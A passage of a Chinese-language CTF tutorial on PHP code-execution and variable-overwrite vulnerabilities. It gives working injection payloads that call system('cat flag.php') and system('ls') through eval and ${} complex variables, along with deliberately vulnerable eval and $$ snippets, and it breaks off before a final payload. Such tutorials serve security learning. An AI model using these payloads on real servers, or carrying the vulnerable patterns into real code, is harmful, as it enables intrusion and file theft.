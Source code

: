 ```Plain Text
 http://120.55.43.255:27189/
 POST:seed=1&key=1244335972&hello=);system('cat flag.php');echo(0

```
### PHP复杂变量`${}`
* \`\${}\`介绍 php中\`\${可执行函数}\`，可利用此特性在PHP的赋值代码中执行系统命令。 栗子：

```Plain Text
 //test.php：
 <?php
 eval('$string = "'.$_GET[cmd].'";');
 ?>

```
在此环境中，仅有一个赋值语句，将传入的cmd变量值赋值给\`\$string\`，利用复杂变量即可执行系统命令。

```Plain Text
 //payload:
 http://127.0.0.1/test.php?cmd=${phpinfo()}
 http://127.0.0.1/test.php?cmd=${system('ls')}
 http://127.0.0.1/test.php?cmd=${system('cat echo.php')}

```
\# 三、 变量覆盖漏洞

通常将可以用自定义的参数值代替原有变量值的情况称为变量覆盖漏洞，经常导致变量覆盖漏洞的情况有：\$\$使用不当，extract()函数使用不当，parse\_str()函数使用不当，import\_request\_variables()使用不当，开启了全局变量注册等

## 3.1 `$$`的使用
* \`\$\$\`为可变变量，简单应用如下：

```Plain Text
 $a = 'hello';
 $hello = 'world';
 echo $$a;            //world

```
* ctf实例：

```Plain Text
 <?php
 include('flag.php);    
 $_403 = "Access Denied";
 $_200 = "Welcome Admin";
 if ($_SERVER["REQUEST_METHOD"] != "POST")
     die("BugsBunnyCTF is here :p…");
 if ( !isset($_POST["flag"]) )
     die($_403);
 foreach ($_GET as $key => $value)
     $$key = $$value;
 foreach ($_POST as $key => $value)
     $$key = $value;
 if ( $_POST["flag"] !== $flag )
     die($_403);
 echo "This is your flag : ". $flag . "\n";
 die($_200);
 ?>

```
\*\*题目分析\*\*： 此题关键在于，post提交的数据必须要有flag变量，然而这会覆盖最初的flag。破解在于\`die(\$\_200);\`，这会输出变量\`\_200\`的值，所以可以把变量\`flag\`赋值给变量\`\_200\`。 \*\*解题方法\*\*： 构造如下payload：
